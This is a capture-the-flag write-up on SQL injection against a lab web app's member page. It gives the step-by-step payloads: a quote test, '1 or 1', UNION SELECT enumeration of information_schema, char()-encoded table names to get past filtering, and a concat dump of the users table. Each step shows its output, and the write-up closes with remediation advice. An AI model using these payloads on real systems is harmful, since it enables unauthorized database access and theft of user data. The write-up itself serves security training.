 # SQL Injection
The member page [http://10.203.72.119/?page=member](http://10.203.72.119/?page=member "member page") is vunerable to ***sql injection***

## Method
If we submit a ***'*** as the member id 
[http://10.203.72.119/?page=member&id=%27&Submit=Submit#](http://10.203.72.119/?page=member&id=%27&Submit=Submit#)
. We will get the output below.

*'' You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1 ''*

This is error displays for both single and double qoutes, which we now understand that they dont use neither to begin and end their statements.

We can now get all the rows in this table with input ***1 or 1***.
```
http://10.203.73.150/index.php?page=member&id=1+or+1&Submit=Submit#
```
we get 4 rows back. the fourth one has a clue, as shown below.
```
ID: 1 or 1 
First name: Flag
Surname : GetThe
```

So there is a flag in this table probably. Ok, so then we check for the tables that they have from the information schema. Using union select, we select all the tables, as shown below.

``` sql
1 union select 1, table_name from information_schema.tables
```
output
```
ID: 1 union select 1, table_name from information_schema.tables-- 
First name: 1
Surname : users
ID: 1 union select 1, table_name from information_schema.tables-- 
First name: 1
Surname : guestbook
ID: 1 union select 1, table_name from information_schema.tables-- 
First name: 1
Surname : list_images
ID: 1 union select 1, table_name from information_schema.tables-- 
First name: 1
Surname : vote_dbs
```
These are the are some of table that we got back, but the above seem to be ones that are used for users of this web application. We first look into the ***users*** table. With the sql statement below we will display all the columns for this table.
```sql
1 union select 1, column_name from information_schema.columns where table_name=char(117,115,101,114,115)
```
For the name of the table we are selecting the columns from which is the ***users***  table, on the input we had to convert ***users*** to ascii (117,115,101,114,115), it seems like the are using a php function to protect against this input.

From the output we get colunms:
1. first_name
1. last_name
1. town
1. country
1. planet
1. commentaire
1. countersign

Lets get the rows for the columns with sql below
``` sql
1 union select 1, concat(first_name, last_name, town,country, planet,commentaire, countersign) from users
```
On the last row return from the output we then get instructions to the flag
```
ID: 1 union select 1, concat(first_name, last_name, town,country, planet,commentaire, countersign) from users 
First name: 1
Surname : FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```
We folow the instructions to get this flag ***10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5***.

## Soultion
1. Using prepared statements given that this site uses ***PHP***, prepared help the database distinguish between the ***code*** and ***user input***, by pre-compliling ***SQL*** statements to be then used as input. For ***PHP*** using ***PDO*** is one of the solutions.
1. Validating input, making use of ***regular expression*** to validate thee user input whether it matches the expected input, checking whether it contains special charcters, which would be incorrect if the input is to be a surname or name. This process can be called ***sanitization***.
1. ***Backend*** validation is very important.
